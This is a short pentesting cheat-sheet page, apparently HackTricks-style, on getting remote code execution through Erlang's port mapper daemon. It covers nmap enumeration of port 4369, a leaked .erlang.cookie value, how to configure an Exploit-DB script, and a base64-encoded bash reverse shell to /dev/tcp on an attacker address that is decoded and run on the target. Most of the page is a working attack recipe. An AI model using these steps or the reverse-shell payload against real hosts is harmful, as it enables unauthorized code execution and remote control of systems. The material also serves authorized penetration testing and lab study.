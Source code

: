 ```yaml
---
description: Erlang Cookie RCE
---
```


# Erlang - 4369

[https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd](https://book.hacktricks.xyz/pentesting/4369-pentesting-erlang-port-mapper-daemon-epmd)

```
nmap -sV -Pn -n -T4 -p 4369 --script epmd-info 192.168.1.2

4369/tcp  open   epmd       Erlang Port Mapper Daemon
| epmd-info: 
|   epmd_port: 4369
|   nodes: 
|_    rabbit: 65000
65000/tcp open   unknown
```

### Erlang Cookie RCE

If you can **leak the Authentication cookie** you will be able to execute code on the host. Usually, this cookie is located in **\~/.erlang.cookie** and is generated by erlang at the first start.

There is a epmd port. And rabbit service on 65000 port. We need to rce we need erlang.cookie value. We can brute force it or we can find it via another services on the host.

```
.erlang.cookie
JFKERIPLFKVJSQRDIXJS
```

### Erlang Cookie - Remote Code Execution

[https://www.exploit-db.com/exploits/49418](https://www.exploit-db.com/exploits/49418)

```
$ python3 49418
```

We need to change relevant parts of the code.

```
TARGET = "192.168.1.2"
PORT = 65000
COOKIE = "JFKERIPLFKVJSQRDIXJS"
CMD = "id"
```

```
/bin/bash -i >& /dev/tcp/192.168.1.1/80 0>&1 - Base64 encoded

CMD="echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS4xLzgwIDA+JjE= | base64 -d > shell.sh"
CMD="bash shell.sh"
```

